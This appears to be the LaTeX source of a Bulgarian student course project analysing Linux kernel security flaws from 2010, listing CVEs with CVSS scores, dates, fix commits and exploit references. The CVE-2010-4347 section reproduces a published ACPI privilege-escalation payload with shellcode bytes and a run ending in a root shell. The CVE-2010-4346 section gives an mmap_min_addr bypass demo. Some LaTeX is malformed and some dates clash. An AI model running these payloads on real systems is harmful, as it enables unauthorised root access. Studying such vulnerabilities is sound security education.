\documentclass[a4paper,12pt,leqno]{article}
\usepackage{extsizes}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[bulgarian]{babel}
\usepackage{amsmath}
\usepackage [full]{textcomp}
\usepackage{graphicx}
\DeclareGraphicsExtensions{.pdf,.png,.jpg}
\usepackage[hmargin=3cm,vmargin=2cm]{geometry}
\usepackage{hyperref}

\title{
\vspace{0.5cm}
\begin{Large}
Курсов проект \\ по \\
Мрежова сигурност
\end{Large}
\vspace{2.0cm}
\hline
\vspace{0.5cm}
\textbf{Анализ на проблемите в сигурността на Linux ядрото в последните 12 месеца}
\vspace{0.5cm}
\hline
\\ \vspace{1.5cm}
\\ \vspace{1.0cm}\Large{\textit{Изготвили:} \vspace{1.0cm}  \\ Валентина Динкова, ф.н. 71112\\
 \begin{large}
< valentinadinkova@yahoo.com >
\end{large} \\ 
и \\ Филип Атанасов, ф.н. 71185 \\ \begin{large}
< philip.atanassov@gmail.com > 
\end{large} \\ }\vspace{3.0cm}}

\begin{document}
\maketitle
\thispagestyle{empty}

\newpage

\tableofcontents

\newpage
\part{Описание на проблемите в сигурността на Linux ядрото в последните 12 месеца}
\section{CVE-2010-4347 CVSS Score 6.9}
\subsection{Описание}
\paragraph{}
ACPI подсистемата в Linux ядрата преди 2.6.36.2 използва права за достъп 0222 до файла \textit{custom\_method} на debugfs.
\begin{verbatim}
--w--w--w-. 1 root root 0 2010-11-11 14:56 /sys/kernel/debug/acpi/custom_method
\end{verbatim}
Това позволява на обикновен потребител, който има достъп до системата да придобие по-високи права, като сложи свой ACPI метод в таблиците за интерпретиране на ACPI. Но за да стане това е необходимо \textit{debugfs} да е монтирана някъде в ситемата, така че потребителят да има достъп до файла \textit{custom\_method}. По подразбиране debugfs не се монтира. Необходимо е да се изпълни командата
\begin{verbatim}
mount -t debugfs nodev /sys/kernel/debug
\end{verbatim}
като root.

\begin{itemize}
    \item Тип: \textit{privileges escalation}
    \item Съществува от: 2010-07-15
  	\item Добива публичност: 2010-11-13
    \item Оправен: 2010-11-13\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=ed3aada1bf34c5a9e98af167f125f8a740fc726a}}
\end{itemize}

\subsection{Exploit}
\paragraph{}
Публикация за exploit излиза на 2010-12-18. Автор е Jon Oberheide\footnote{\url{http://www.exploit-db.com/exploits/15774/}}.
\paragraph{}
Той компилира ASL\footnote{ACPI Source Language} код до AML\footnote{ACPI Machine Language}, който презаписва ACPI методa, използван при промяна на статуса на LID устройството (при отваряне и затваряне на капака на лаптоп). Когато методът се извика, той презаписва \textit{OperationRegion} на физическият адрес, където \textit{sys\_futimesat} се намира и презаписва паметта чрез \textit{Store}, като по този начин стига до privilege escalation при извикването на \textit{sys\_futimesat}.
\begin{verbatim}
DefinitionBlock ("lid.aml", "SSDT", 2, "", "", 0x00001001) {
  Method (\_SB.LID._LID, 0, NotSerialized) {
    OperationRegion (KMEM, SystemMemory, PHYADDR, 0x392)
    Field(KMEM, AnyAcc, NoLock, Preserve) {
      HACK, 0x392
    }
    Store (Buffer () {
      0x55, 0x48, 0x89, 0xe5, 0x53, 0x48, 0x83, 0xec,
      0x08, 0x48, 0xc7, 0xc3, 0x24, 0x24, 0x24, 0x24,
      0x48, 0xc7, 0xc0, 0x24, 0x24, 0x24, 0x24, 0xbf,
      0x00, 0x00, 0x00, 0x00, 0xff, 0xd0, 0x48, 0x89,
      0xc7, 0xff, 0xd3, 0x48, 0xc7, 0xc0, 0xb7, 0xff,
      0xff, 0xff, 0x48, 0x83, 0xc4, 0x08, 0x5b, 0xc9,
      0xc3 }, HACK)
    Return (One)
  }
}
\end{verbatim}
\paragraph{}
Този exploit се отнася само за 64-битови ОС и зависи от наличието на LID устройство.
\begin{verbatim}
$ gcc american-sign-language.c -o american-sign-language
$ ./american-sign-language
[+] resolving required symbols...
[+] checking for world-writable custom_method...
[+] checking for an ACPI LID device...
[+] poisoning ACPI tables via custom_method...
[+] triggering ACPI payload via LID device...
[+] triggering exploit via futimesat...
[+] launching root shell!
# id
uid=0(root) gid=0(root) groups=0(root)
\end{verbatim}


\section{CVE-2010-4346 CVSS Score 2.1}
\subsection{Описание}
\paragraph{}
Функцията \textit{install\_special\_mapping} в\textit{ mm/mmap.c} в Linux ядрата преди 2.6.37-rc6 не извиква функцията \textit{security\_file\_mmap}, което позволява да се заобиколят зададените \textit{mmap\_min\_addr} ограничения и евентуално да се извърши атака с дереференциране на нулев указател, чрез специално създадена програма на асемблер.

\begin{verbatim}
$ uname -m
x86_64
$ cat /proc/sys/vm/mmap_min_addr
65536
$ cat install_special_mapping.s
section .bss
    resb BSS_SIZE
section .text
    global _start
    _start:
        mov     eax, __NR_pause
        int     0x80
$ nasm -D__NR_pause=29 -DBSS_SIZE=0xfffed000 -f elf
       -o install_special_mapping.o install_special_mapping.s
$ ld -m elf_i386 -Ttext=0x10000 -Tbss=0x11000 
       -o install_special_mapping install_special_mapping.o
$ ./install_special_mapping &
[1] 14303
$ cat /proc/14303/maps
0000f000-00010000 r-xp 00000000 00:00 0       [vdso]
00010000-00011000 r-xp 00001000 00:19 2453665 /home/taviso/install_special_mapping
00011000-ffffe000 rwxp 00000000 00:00 0       [stack]

\end{verbatim}
\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2007-07-19
  	\item Добива публичност: 2010-11-13
    \item Оправен: 2010-12-15\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=462e635e5b73ba9a4c03913b77138cd57ce4b050}}
\end{itemize}


\section{CVE-2010-3881 CVSS Score 1.9}
\subsection{Описание}
\paragraph{}
arch/x86/kvm/x86.c в Linux ядрата преди 2.3.36.2 не инициализира някои членове на структурите \textit{kvm\_vcpu\_events}, \textit{kvm\_debugregs}, \textit{kvm\_pit\_state2} и \textit{kvm\_clock\_data}, което позволява обикновен потребител евентуално да получи важна информация от стека на паметта на ядрото чрез операции за четене върху /dev/kvm устройството\footnote{KVM - Kernel-based Virtual Machine - пълно решение за виртуализация на Linux за x86 хардуер. Съдържа разширение - Intel VT или AMD-V. Състои се от модул към ядрото \textit{kvm.ko} и специфични за процесора разширения \textit{kv-intel.ko} и \textit{kvm-amd.ko}}.

\end{verbatim}
\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2007г.
  	\item Добива публичност: 2010-11-01
    \item Оправен: 2010-11-01\footnote{\url{http://git.kernel.org/?p=virt/kvm/kvm.git;a=commit;h=831d9d02f9522e739825a51a11e3bc5aa531a905}}
\end{itemize}

%==============================================%==============================================


\section{CVE-2010-3880 CVSS Score 4.9}
\subsection{Описание}
\paragraph{}
Във файла \textit{net/ipv4/inet\_diag.c} във версиите на ядрото преди 2.6.37-rc2 байткодът на INET\_DIAG не се проверява достатъчно добре,
което позволява на локален потребител да предизвика \textit{DoS} атака чрез специално създадени инструкции, които съдържат
повече от един атрибут. Може да бъде предизвикан безкраен цикъл в ядрото.
\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: преди 2005г.
    \item Добива публичност: 2010-11-03\footnote{\url{http://www.spinics.net/lists/netdev/msg145899.html}}
    \item Оправен: 2010-11-04 \footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=22e76c849d505d87c5ecf3d3e6742a65f0ff4860}}
\end{itemize}

\section{CVE-2010-4157 CVSS Score 6.0}
\subsection{Описание}
\paragraph{}
Във \textit{drivers/scsi/gdth.c}
\textit{gdth\_ioctl\_alloc()} приема аргумент \textit{size} като тип \textit{int}.
\textit{copy\_from\_user()} приема аргумента \textit{size} като тип \textit{unsigned long}.
\textit{gen.data\_len} и \textit{gen.sense\_len} са от тип \textit{unsigned long}.
На 64-битова ОС \textit{long} са 64-битови, а \textit{int} са 32-битови.
Възможно е да се подаде много голямо число и заделянето ще отреже размера до 32 бита
и ще задели малък буфер. След това, когато извикаме \textit{copy\_from\_user()},
това ще предизвика неправилно писане в паметта, защото е заделена по-малко памет,
отколкото се опитваме да запишем.
\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: преди 2005г.
  	\item Добива публичност: 2010-10-08\footnote{\url{http://ns3.spinics.net/lists/linux-scsi/msg47361.html}}
    \item Оправен: 2010-10-25 \footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=f63ae56e4e97fb12053590e41a4fa59e7daa74a4}}
\end{itemize}


%==============================================%==============================================



\section{CVE-2010-3904 CVSS Score 7.2}
\subsection{Описание}
\paragraph{}
Функцията \textit{rds\_page\_copy\_user} от  \textit{net/rds/page.c} в имплементацията на протокола Reliable Datagram Sockets (RDS) в Linux ядрата преди 2.6.36 не валидира правилно адресите, получени от user space, което позволява на обикновен потребител да получи по-високи привилегии, използвайки системните извиквания \textit{sendmsg} и \textit{recvmsg}.
\begin{itemize}
    \item Тип: \textit{privileges escalation}
    \item Съществува от: преди 2005г.
  	\item Добива публичност: 2010-10-15
    \item Оправен: 2010-10-15\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=799c10559d60f159ab2232203f222f18fa3c4a5f}}
\end{itemize}

\section{CVE-2010-3066 CVSS Score 4.9}
\subsection{Описание}
\paragraph{}
Функцията \textit{io\_submit\_one} от fs/aio.c в Linux ядрата преди 2.6.23 позволява на обикновен потребител да причини DoS (дереференциране на нулев указател) чрез системното извикване \textit{io\_submit} с IOCB\_FLAG\_RESFD флаг.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2009-02-24
  	\item Добива публичност: 2010-09-02
    \item Оправен: 2007-10-08\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=799c10559d60f159ab2232203f222f18fa3c4a5f}}
\end{itemize}

\section{CVE-2010-2962 CVSS Score 7.2}
\subsection{Описание}
\paragraph{}
\textit{drivers/gpu/drm/i915/i915\_gem.c} от Graphics Execution Manager (GEM) при драйвера Intel i915 в Direct Rendering Manager (DRM) подсистемата в Linux ядрата преди 2.6.36 не валидира правилно указателите към блокове памет, което позволява на обикновен потребител да пише в паметта на ядрото. Това от своя страна може да доведе до придобиване на по-високи права, чрез използването на интерфейса \textit{ioctl}, свързан с операциите \textit{pwrite} и \textit{pread}.

\begin{itemize}
    \item Тип: \textit{privileges escalation}
    \item Съществува от: 2008-07-30
  	\item Добива публичност: 2010-10-03
    \item Оправен: 2010-09-26 \footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=ce9d419dbecc292cc3e06e8b1d6d123d3fa813a4}}
\end{itemize}


\section{CVE-2010-3705 CVSS Score 8.3}
\subsection{Описание}
\paragraph{}
Функцията \textit{sctp\_auth\_asoc\_get\_hmac} в\textit{ net/sctp/auth.c} в Linux ядрата преди 2.6.36 не валидира правилно масивът \textit{hmac\_ids} от SCTP peer, което позволява отдалечени атаки да причинят DoS, чрез поставяне на определена стойност за последен елемент на масива.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2007-10-09
  	\item Добива публичност: 2010-10-01\footnote{\url{http://marc.info/?l=linux-kernel&m=128596992418814&w=2	}}
    \item Оправен: 2010-10-01 \footnote{\url{http://git.kernel.org/?p=linux/kernel/git/davem/net-2.6.git;a=commit;h=51e97a12bef19b7e43199fc153cf9bd5f2140362}}
\end{itemize}


\section{CVE-2010-2963 CVSS Score 6.2}
\subsection{Описание}
\paragraph{}
\textit{drivers/media/video/v4l2-compat-ioctl32.c} в Video4Linux (V4L) имплементацията в Linux ядрата преди 2.6.36, при 64-битовите платформи не проверява мястото, където се копира паметта, което позволява на обикновен потребител да пише в пространството на паметта на ядрото. Това може да доведе до придобиване на по-високи права, чрез извикването на VIDIOCSTUNER ioctl върху \textit{/dev/video} устройството, последвано от VIDIOCSMICROCODE ioctl извикване.

\begin{itemize}
    \item Тип: \textit{privileges escalation}
    \item Съществува от: 2008-12-21
  	\item Добива публичност: 2010-10-15
    \item Оправен: 2010-10-15 \footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=3e645d6b485446c54c6745c5e2cf5c528fe4deec}}
\end{itemize}



\section{CVE-2010-3698 CVSS Score 4.6}
\subsection{Описание}
\paragraph{}
KVM имплементацията в Linux ядрата преди 2.6.36 не презарежда правилно сегментните регистри FS и GS, което позоволява на потребителите на приемната (host) ОС да предизвикат DoS (забиване на приемната ОС), чрез KVM\_RUN ioctl извикване, заедно с промяна на Local Descriptor Table (LDT).

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2008-07-10
  	\item Добива публичност: 2010-10-19
    \item Оправен: 2010-10-19 \footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=9581d442b9058d3699b4be568b6e5eae38a41493}}
\end{itemize}


\section{CVE-2010-4249 CVSS Score 4.9}
\subsection{Описание}
\paragraph{}
Функцията \textit{wait\_for\_unix\_gc} в \textit{net/unix/garbage.c} в Linux ядрата преди 2.6.37-rc3-след-20101125 неправилно избират времето за garbage collection на inflight сокети, което позволява обикновен потребител да причини denial of service (зависване на системата), чрез използването на системните извиквания \textit{socketpair} и \textit{sendmsg} за сокети SOCK\_SEQPACKET.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2008-11-26
  	\item Добива публичност: 2010-09-23\footnote{\url{https://lkml.org/lkml/2010/11/23/395}}
    \item Оправен: 2010-09-24 \footnote{\url{http://git.kernel.org/?p=linux/kernel/git/davem/net-2.6.git;a=commit;h=9915672d41273f5b77f1b3c29b391ffb7732b84b}}
\end{itemize}

\subsection{Exploit}
\paragraph{}
Exploit излиза на 2010-09-25\footnote{\url{http://www.exploit-db.com/exploits/15622/}}. Автор е Key Night.

\section{CVE-2010-3858 CVSS Score 4.9}
\subsection{Описание}
\paragraph{}
Функцията \textit{setup\_arg\_pages} в \textit{fs/exec.c} в Linux ядрата преди 2.6.36, при използване на CONFIG\_STACK\_GROWSDOWN не ограничава правилно консумацията на паметта на стека на (1) аргументите и (2) средата за 32-битови приложения върху 64-битова платформа, което позволява обикновен потребител да причини DoS (забиване на системата), чрез exec системно извикване.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2006-03-28
  	\item Добива публичност: 2010-08-13
    \item Оправен: 2010-09-10 \footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=1b528181b2ffa14721fb28ad1bd539fe1732c583}}
\end{itemize}

\subsection{Exploit}
\paragraph{}
Exploit излиза на 2010-11-26\footnote{\url{http://www.exploit-db.com/exploits/15619/}}. Автор е Roland McGrath.


\section{CVE-2010-4248 CVSS Score 4.7}
\subsection{Описание}
\paragraph{}
В \textit{\_\_exit\_signal} функцията в kernel/exit.c в Linux ядрата преди  2.6.37-rc2 съществува условие на съзтезание, което позволява обикновен потребител да причини DoS, чрез вектори, свързани с \textit{multithreaded exec}, употребата на лидер на група от нишки в \textit{kernel/posix-cpu-timers.c} и избора на нов лидер на група от нишки във функцията \textit{de\_thread} в \textit{fs/exec.c}.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2010-05-26
  	\item Добива публичност: 2010-11-05
    \item Оправен: 2010-11-05 \footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=e0a70217107e6f9844628120412cb27bb4cea194}}
\end{itemize}

%==============================================%==============================================
\section{CVE-2010-3432 CVSS Score 7.8} % (fold)
\label{sec:CVE-2010-3432 Score 7.8}
\subsection{Описание}
Функцията \textit{sctp\_packet\_config} в \texit{net/sctp/output.c} в ядрата преди 2.6.35.6 инициализира по
грешен начин структурите от данни, представляващи пакети. Това позволява отдалечена атака, предизвикваща DoS чрез определена последователност от \texit{SCTP} трафик.

\textit{sctp\_outq\_flush()} в \textit{net/sctp/outqueue.c}
може да извика \textit{sctp\_packet\_reset} върху
структура, представяща пакет, която вече е запълнена с парчета данни.
\textit{sctp\_packet\_reset()} няма да се погрижи парчетата данни
и ще промени само дължината. Дължината ще е грешна и това ще предизвика
``\textit{panic}'' в ядрото, когато се извика функцията \textit{skb\_put} с
прекалено малко заделена памет, както се вижда и от коментарът над тази функция:
\begin{verbatim}
    /**
     *	skb_push - add data to the start of a buffer
     *	@skb: buffer to use
     *	@len: amount of data to add
     *
     *	This function extends the used data area of the buffer at the buffer
     *	start. If this would exceed the total buffer headroom the kernel will
     *	panic. A pointer to the first byte of the extra data is returned.
     */
\end{verbatim}

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: преди 2005г.
    \item Добива публичност: 2010-09-14\footnote{\url{http://marc.info/?l=linux-kernel&m=128448383501073&w=3}}
    \item Оправен: 2010-09-17\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=4bdab43323b459900578b200a4b8cf9713ac8fab}}
\end{itemize}

% section CVE-2010-3432 Score 7.8 (end)

\section{CVE-2010-4165 CVSS Score 4.9} % (fold)
\label{sec:CVE-2010-4165 CVSS Score 4.9}

Функцията \textit{do\_tcp\_setsockopt} в \textit{net/ipv4/tcp.c} в ядра с версии преди 2.6.37-rc2
не ограничава правилно \textit{TCP\_MAXSEG} стойностите, което позволява на локален потребител да
предизвика DoS (OOPS\footnote{Грешка при изпълнението на код в ядрото, която не завършва със забиване на системата, за разлика от ``panic''. Ядрото
убива виновния процес и извежда съобщение за грешка.})
чрез извикване на \textit{setsockopt} с твърде малка стойност за \textit{TCP\_MAXSEG}, което води до деление на
нула или неправилно използване на целочислена променлива без знак.
\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2008-09-21\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=f5fff5dc8a7a3f395b0525c02ba92c95d42b7390}}
    \item Добива публичност: 2010-11-10\footnote{\url{http://www.spinics.net/lists/netdev/msg146405.html}}
    \item Оправен: 2010-11-11\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=7a1abd08d52fdeddb3e9a5a33f2f15cc6a5674d2}}
\end{itemize}

% section CVE-2010-4165 CVSS Score 4.9 (end)


\section{ CVE-2010-4169 CVSS Score 4.9} % (fold)
\label{sec: CVE-2010-4169 CVSS Score 4.9}

Използване на памет след освобождаване в \textit{mm/mprotect.c} в ядра преди версия 2.6.37-rc2 позволява
на локален потребител да предизвика DoS атака чрез вектори, използвайки \textit{mprotect} системното извикване.
\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2009-06-08\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=dab5855}}
    \item Добива публичност: 2010-11-09\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=63bfd7384b119409685a17d5c58f0b56e5dc03dahttp://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=63bfd7384b119409685a17d5c58f0b56e5dc03da}}
    \item Оправен:  2010-11-09\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=63bfd7384b119409685a17d5c58f0b56e5dc03dahttp://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=63bfd7384b119409685a17d5c58f0b56e5dc03da}}
\end{itemize}

% section  CVE-2010-4169 CVSS Score 4.9 (end)


%==============================================%==============================================

\section{CVE-2010-2938 CVSS Score 4.9}
\subsection{Описание}
\paragraph{}
\textit{arch/x86/hvm/vmx/vmcs.c}  в virtual-machine control structure (VMCS) имплементацията в Linux ядрата преди 2.6.18 на Red Hat Enterprise Linux (RHEL) 5 при Intel платформата без функционалността за Extended Page Tables (EPT), достъпва VMCS полета, без да прави проверка за хадруерна поддръжка за тези полета. Това позволява на обикновен потребител да причини DoS (забиване на ОС) като поиска VMCS dump за напълно виртуализиран Xen guest.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: преди 2005г.
  	\item Добива публичност: 2010-08-02
    \item Оправен: 2010-09-29
\end{itemize}

\section{CVE-2010-3437 CVSS Score 6.6}
\subsection{Описание}
\paragraph{}
Грешка при указването на целочислен тип със знак във функцията \\ \textit{pkt\_find\_dev\_from\_minor} в \textit{drivers/block/pktcdvd.c} в Linux ядрата преди 2.6.36-rc6 позволява на обикновен потребител да получи важна информация от паметта на ядрото или да причини DoS (невалидно дереференциране на указател и забиване на системата) чрез поставяне на стойност на индекс в \\ PKT\_CTRL\_CMD\_STATUS ioctl извикване.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: преди 2005г.
  	\item Добива публичност: 2010-09-27
    \item Оправен: 2010-09-27\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=252a52aa4fa22a668f019e55b3aac3ff71ec1c29}}
\end{itemize}

\subsection{Exploit}
\paragraph{}
Exploit излиза на 2010-09-29\footnote{\url{http://www.exploit-db.com/exploits/15150/}}. Автор е Jon Oberheide.


\section{CVE-2010-3442 CVSS Score 4.7}
\subsection{Описание}
\paragraph{}
Няколко препълвания на целочислени променливи във функцията \textit{snd\_ctl\_new} в sound/core/control.c в Linux ядрата преди 2.6.36-rc5-след-20100929 позволяват на обикновен потребител да причини DoS (предизвикване на грешки в динамичната памет).

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: преди 2005г.
  	\item Добива публичност: 2010-09-29
    \item Оправен: 2010-09-29\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/tiwai/sound-2.6.git;a=commit;h=5591bf07225523600450edd9e6ad258bb877b779}}
\end{itemize}

\section{CVE-2010-2653 CVSS Score 6.9}
\subsection{Описание}
\paragraph{}
В \textit{hvc\_close} функцията в \textit{drivers/char/hvc\_console.c} в Linux ядрата преди 2.6.34 съществува условие на съзтезание, което позволява обикновен потребител да причини DoS или да причини други неизвестни щети, свързани с \textit{hvc\_open} и \textit{hvc\_remove} функциите, като затвори Hypervisor Virtual Console устройството.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2010-03-12
  	\item Добива публичност: 2010-02-26
    \item Оправен: 2010-04-08\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=320718ee074acce5ffced6506cb51af1388942aa}}
\end{itemize}

\section{CVE-2010-3081 CVSS Score 7.2}
\subsection{Описание}
\paragraph{}
В 32-битовия слой на съвместимост при 64-битовите ядра преди 2.6.36-rc4-git2 възниква препълване на целочислен тип при умножение в метода \textit{access\_ok}, който се използва, за да проверява дали дадена памет е в безопасните граници на пространството на потребителя. Benjamin Hawkes успява да накара стек указателя на потребителя да започне да сочи към пространството на ядрото. Проблемът започва при процедура за заделяне на памет, използвана от слоя за съвместимост от \textit{arch/x86/include/asm/compat.h}

\begin{verbatim}
static inline void __user *compat_alloc_user_space(long len)                    
{                                                                               
        struct pt_regs *regs = task_pt_regs(current);                           
        return (void __user *)regs->sp - len;                                   
}
\end{verbatim}
\paragraph{}
Както се вижа никъде няма проверка за underflow на стек указателя на потребителското пространство. Ако слоят за съвместимост използва върнатият указател, без да проверява дали сочи към потребителското пространство, може да се появи грешка в паметта на ядрото.
\paragraph{}
Benjamin Hawkes открива два случая, в които това може да стане: първият - video4linux iocte, вторият - в слоя IP multicast desktop compat. Вторият вариант има много благо приятни свойства за explit.
\paragraph{}
От \textit{compat\_mc\_getsockopt} в \textit{net/compat.c}:
\begin{verbatim}
kgf = compat_alloc_user_space(klen+sizeof(*optlen));                            
                                                                                
if (!access_ok(VERIFY_READ, gf32, __COMPAT_GF0_SIZE) ||                         
      __get_user(interface, &gf32->gf_interface) ||                             
      __get_user(fmode, &gf32->gf_fmode) ||                                     
      __get_user(numsrc, &gf32->gf_numsrc) ||                                   
      __put_user(interface, &kgf->gf_interface) ||                              
      __put_user(fmode, &kgf->gf_fmode) ||                                      
      __put_user(numsrc, &kgf->gf_numsrc) ||                                    
      copy_in_user(&kgf->gf_group,&gf32->gf_group,sizeof(kgf->gf_group)))       
          return -EFAULT;
\end{verbatim}
\paragraph{}
\textit{klen} е неотрицателно 32-битово число, подадено от потребителското пространство, което означава, че \textit{kgf} указателя може да бъде "превъртян"\ , така че да сочи някъде високо в адресното пространство на ядрото. Указателят \textit{gf32} е валиден адрес в потребителското адресно пространаство и съдържанието на структурата е контролирано. Тъй като се използва "nocheck" версията на \textit{put\_user} и не се извършват повече \textit{access\_ok} проверки, фактът, че \textit{kgf} сочи в адресното пространство на ядрото няма значение - контролираните стойности ще бъдат записани в структурата, сочена от \textit{kgf}.

\begin{itemize}
    \item Тип: \textit{privileges escalation}
    \item Съществува от: 2008-08-29
  	\item Добива публичност: 2010-09-07
    \item Оправен: 2010-09-14\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=c41d68a513c71e35a14f66d71782d27a79a81ea6}}
\end{itemize}

\subsection{Exploit}
\paragraph{}
Описаното по-горе позволява на атакуващия да запише каквато иска стойност в първите 31 бита от адресното пространство на ядрото. В практиката това е напълно достатъчно за exploit. (2010-09-19)

\section{CVE-2010-3301 CVSS Score 7.2}
\subsection{Описание}
\paragraph{}
Емулацията на функционалността на системното извикване IA32 в\\ \textit{arch/x86/ia32/ia32entry.S} в Linux ядрата преди 2.6.36-rc4-git2 на x86\_64 платформи не допълва с нула регистъра EAX, след като е използван 32-битовия път на изпълнение на \textit{ptrace} системното извикване. Това би могло да позволи на обикновен потребител да придобие по-високи права, като предизвика достъп извън границите на таблицата със ситемни извиквания, използвайки RAX регистъра. Този проблем е бил отстраняван вече веднъж през 2007 година. Тогава за него е имало и exploit. Проблемът отново се появява, тъй като през 2008 година е имало регресия, която премахва EAX презареждането от LOAD\_ARGS32.\footnote{\url{http://sota.gen.nz/compat2/}}

\begin{itemize}
    \item Тип: \textit{privileges escalation}
    \item Съществува от: 2008-07-09
  	\item Добива публичност: 2010-09-14
    \item Оправен: 2010-09-14\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=eefdca043e8391dcd719711716492063030b55ac}}
\end{itemize}

\section{CVE-2010-2240 CVSS Score 7.2}
\subsection{Описание}
\paragraph{}
Функцията \textit{do\_anonymous\_page} в \textit{mm/memory.c} в Linux ядрата преди 2.6.27.52, 2.6.32.x преди 2.6.32.19, 2.6.34.x преди 2.6.34.4, и 2.6.35.x преди 2.6.35.2 не разделя подходящо статичната от динамичната памет, което позволява на атакуващия да изпълнят код, като го постави в края на последната страница на сегмента със споделената памет.

\begin{itemize}
    \item Тип: \textit{privileges escalation}
    \item Съществува от: 2007-10-16
  	\item Добива публичност: 2010-08-13
    \item Оправен: 2010-08-13\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=320b2b8de12698082609ebbc1a17165727f4c893}}
\end{itemize}

\section{CVE-2010-2248 CVSS Score 7.8}
\subsection{Описание}
\paragraph{}
fs/cifs/cifssmb.c в CIFS имплементацията в Linux ядрата преди 2.6.34-rc4 позволява отдалечена атака да причини DoS (kernel panic) чрез изпращане на SMB пакет с невалидна CountHigh стойност, както е демонстрирано при OS/2 server. Сървърът записва в \textit{pSMBr->CountHigh} невалидна стойност, дори в случай на нормални операции за записване. Това води до грешно изчисление на "nbyte" и предизвиква бъг в ядрото в \textit{mm/filemap.c}.


\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: преди 2005г.
  	\item Добива публичност: 2010-03-31
    \item Оправен: 2010-04-03\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=6513a81e9325d712f1bfb9a1d7b750134e49ff18}}
\end{itemize}



\section{CVE-2010-2521 CVSS Score 10}
\subsection{Описание}
\paragraph{}
Няколко препълвания на буферите в \textit{fs/nfsd/nfs4xdr.c} в XDR имплементацията в NFS сървъра при Linux ядрата преди 2.6.34-rc6 позволяват отдалечени атаки да причинят DoS (panic) или евентуално да да изпълнят някакъв код чрез NFSv4 искане за писане, свързано с функциите \textit{read\_buf} и \textit{nfsd4\_decode\_compound}. 
\paragraph{}
При извикване на \textit{read\_buf} да се премести върху следващата страница от pagelist-а, се променя \textit{argp->end} и става случайно число, което не е адреса в страницата, който \textit{argp->p} сочи в текущия момент. Така следващите извиквания на READ\_BUF ще мислят, че има много повече от страница свободно пространство (преобразуването към u32 осигурява беззнаково сравнение).
\begin{verbatim}
--- a/fs/nfsd/nfs4xdr.c
+++ b/fs/nfsd/nfs4xdr.c
@@ -161,10 +161,10 @@ static __be32 *read_buf
                                    (struct nfsd4_compoundargs *argp,
                                     u32 nbytes)
                                     
        argp->p = page_address(argp->pagelist[0]);
        argp->pagelist++;
        if (argp->pagelen < PAGE_SIZE) {
-               argp->end = p + (argp->pagelen>>2);
+               argp->end = argp->p + (argp->pagelen>>2);
                argp->pagelen = 0;
        } else {
-               argp->end = p + (PAGE_SIZE>>2);
+               argp->end = argp->p + (PAGE_SIZE>>2);
                argp->pagelen -= PAGE_SIZE;
        }
        memcpy(((char*)p)+avail, argp->p, (nbytes - avail));

@@ -1426,10 +1426,10 @@ nfsd4_decode_compound
                                (struct nfsd4_compoundargs *argp)
                                
                        argp->p = page_address(argp->pagelist[0]);
                        argp->pagelist++;
                        if (argp->pagelen < PAGE_SIZE) {
-                               argp->end = p + (argp->pagelen>>2);
+                               argp->end = argp->p + (argp->pagelen>>2);
                                argp->pagelen = 0;
                        } else {
-                               argp->end = p + (PAGE_SIZE>>2);
+                               argp->end = argp->p + (PAGE_SIZE>>2);
